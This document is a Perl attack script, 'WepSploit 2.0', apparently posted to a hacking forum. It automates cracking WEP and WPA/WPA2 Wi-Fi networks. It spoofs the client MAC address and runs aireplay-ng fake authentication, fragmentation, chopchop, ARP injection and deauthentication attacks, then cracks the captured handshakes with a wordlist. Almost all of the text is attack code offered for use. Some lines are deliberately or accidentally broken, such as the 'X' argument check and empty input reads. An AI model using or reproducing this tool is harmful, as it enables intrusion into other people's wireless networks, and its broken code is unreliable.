

[+]Topic: Code
[+]Von: Neo2k8
[+]Return: Code

#!usr/bin/perl
# WepSploit <= 2.0
# Discovered by: Neo2k8
# Visit: [url]www.DarK-CodeZ.org[/url]
########################################################
#
# ________________________________________________
#|I AM NOT ALLOWED TO use WepSploit 2.0 ^^^^^^^^\ |
#|I AM NOT ALLOWED TO use WepSploit 2.0 | | |
#|I AM NOT ALLOWED TO use WepSploit 2.0 |_ __ | |
#|I AM NOT ALLOWED TO use WepSploit 2.0 (.(. ) | |
#|I AM NOT ALLOWED TO use WepSpl_ (_ ) |
#| \\ /___/' / |
#| _\\_ \ | |
#| (( ) /====| |
#| \ <.__._- \ |
#|______________________________ <//___. ||
#
########################################################
#
# Only for Linux with Aircrack-ng
#
# Tested on Backtrack 2 Final , Backtrack 3 Beta
#
# Changelog:
# ----------
#
# - Bug fixxed
# - added Wpa support
# - added Kiddy Protection ( A little mistake ;) (5) , not more )
#
########################################################
@usage = ("\n
________ _______ __ __ __
| | | |.-----.-----.| __|.-----.| |.-----.|__| |_
| | | || -__| _ ||__ || _ || || _ || | _|
|________||_____| __||_______|| __||__||_____||__|____|
|__| |__|
coded by Neo2k8
Usage Wep:
perl WepSploit.pl -wep
=================================================================
Usage Wpa/Wpa2:
perl WepSploit.pl -wpa \n\n");
if (@ARGV < X)
{
system("clear");
print @usage;
exit;
}
$typ = $ARGV[0];
$channel = $ARGV[1];
$apmac= $ARGV[2];
$ssid= $ARGV[3];
$interface = $ARGV[4];
if($typ eq "-wep" or $typ eq "-wpa"){
&loop;
}
else {
system("clear");
print @usage;
exit;
}
sub loop {
system("clear");
print "\n\n","Bitte waehlen Sie","\n";
print "--------------------------","\n";
print "[1] Eigene ClientMAC benutzen","\n";
print "[2] Random ClientMAC benutzen","\n";
chomp($eingabe=);
Case:{
$eingabe==1 && do {
system("clear");
print "\n","Bitte geben Sie die ClientMac ein","\n";
print "die benutzt werden soll","\n";
chomp($clientmac=);
&start;
last Case;
};
$eingabe==2 && do {
system("clear");
print "\n","Benutze Random ClientMAC","\n";
&macchanger;
last Case;
};
do {
print "\n","Falsche eingabe","\n";
&loop;
};
}
}
sub macchanger {
$a = int(rand(90) +10);
$b = int(rand(90) +10);
$c = int(rand(90) +10);
$d = int(rand(90) +10);
$e = int(rand(90) +10);
$f = int(rand(90) +10);
$clientmac = "$a:$b:$c:$d:$e:$f";
&start;
}
sub start {
print "Faked MAC is : $clientmac","\n\n\n";
system("ifconfig $interface down");
system("macchanger -m $clientmac $interface");
system("ifconfig $interface up");
sleep 3;
system("airmon-ng stop $interface");
sleep 1;
system("airmon-ng start $interface $channel");
sleep 3;
if($typ eq "-wep"){
&wep;
}
elsif($typ eq "-wpa"){
&wpa;
}
}
sub wep {
system("clear");
print "\n\n","Bitte waehlen Sie","\n";
print "--------------------------","\n";
print "[1] Normale Authentication","\n";
print "[2] Andere Authentication fuer Picky Access Points","\n";
chomp($eingabe=);
Case:{
$eingabe==1 && do {
system("clear");
print "\n","+++++++++++++++++++++++++++++++","\n";
print "++++ Normal Authentication ++++","\n";
print "+++++++++++++++++++++++++++++++","\n";
&normal;
last Case;
};
$eingabe==2 && do {
system("clear");
print "\n","++++++++++++++++++++++++++++++","\n";
print "++++ Picky Authentication ++++","\n";
print "++++++++++++++++++++++++++++++","\n";
&picky;
last Case;
};
do {
print "\n","Falsche eingabe","\n";
&loop2;
};
}
}
sub normal {
system("aireplay-ng -1 0 -e $ssid -a $apmac -h $clientmac $interface");
sleep 4;
&loop3;
}
sub picky {
if (defined($pid = fork)) {
if ($pid) {
&loop3;
} else {
&execut;
}
}
else {
die "Prozess klonen fehlgeschlagen\n";
}
}
sub execut {
system("konsole --e aireplay-ng -1 6000 -o 1 -q 10 -e $ssid -a $apmac -h $clientmac $interface");
}
sub loop3 {
system("clear");
print "\n\n","Bitte waehlen Sie","\n";
print "--------------------------","\n";
print "[1] Fragmentation Attack","\n";
print "[2] Chopchop Attack","\n";
chomp($attack=);
Case:{
$attack==1 && do {
system("clear");
print "\n","++++++++++++++++++++++++++++++","\n";
print "++++ Fragmentation Attack ++++","\n";
print "++++++++++++++++++++++++++++++","\n";
&frag;
last Case;
};
$attack==2 && do {
system("clear");
print "\n","++++++++++++++++++++++++++++++","\n";
print "++++ Chopchop Attack ++++","\n";
print "++++++++++++++++++++++++++++++","\n";
&chop;
last Case;
};
do {
print "\n","Falsche eingabe","\n";
&loop2;
};
}
}
sub frag {
system("aireplay-ng -5 -b $apmac -h $clientmac $interface");
sleep 3;
&loop4;
}
sub chop {
system("aireplay-ng -4 -b $apmac -h $clientmac $interface");
sleep 3;
&loop4;
}
sub loop4 {
system("packetforge-ng -0 -a $apmac -h $clientmac -k 255.255.255.255 -l 255.255.255.255 -y *.xor -w arp-request");
sleep 3;
&loop5;
}
sub loop5 {
if (defined($pid = fork)) {
if ($pid) {
&loop6;
} else {
&dump;
}
}
else {
die "Prozess klonen fehlgeschlagen\n";
}
}
sub dump {
system("konsole --e airodump-ng -c $channel --bssid $apmac -w capture $interface");
}
sub loop6 {
if (defined($pid = fork)) {
if ($pid) {
&loop7;
} else {
&inject;
}
}
else {
die "Prozess klonen fehlgeschlagen\n";
}
}
sub inject {
system("konsole --e aireplay-ng -2 -r arp-request $interface");
}
sub loop7 {
sleep 20;
system("aircrack-ng -z -b $apmac capture*.cap");
}
sub wpa {
if (defined($pid = fork))
{
if ($pid)
{
&get_client;
}
else
{
&watch_client;
}
}
else
{
die "Prozess klonen fehlgeschlagen\n";
}
}
sub get_client
{
system("konsole --e airodump-ng -c $channel --bssid $apmac -w psk $interface");
}
sub watch_client
{
system("clear");
print "Client available ? [y/n]\n";
chomp($input = );
if($input eq "y")
{
print "Please Enter Clientmac of available Client. \n";
chomp($client = );
sleep(3);
system("aireplay-ng -0 1 -a $apmac -c $client $interface");
sleep(4);
&watch_handshake;
}
else
{
&watch_client;
}
} #sub watch end
sub watch_handshake
{
system("clear");
print "Handshake available ? [y/n]\n";
chomp($input = );
if($input eq "y")
{
system("clear");
print "Path to Wordlist.\n";
chomp($list = );
system("aircrack-ng -w $list -b $apmac psk*.cap");
sleep(2);
}
else
{
sleep(1);
system("aireplay-ng -0 1 -a $apmac -c $client $interface");
&watch_handshake;
}
}
# written by Neo2k8
# 00:04:0E:6E:C4:64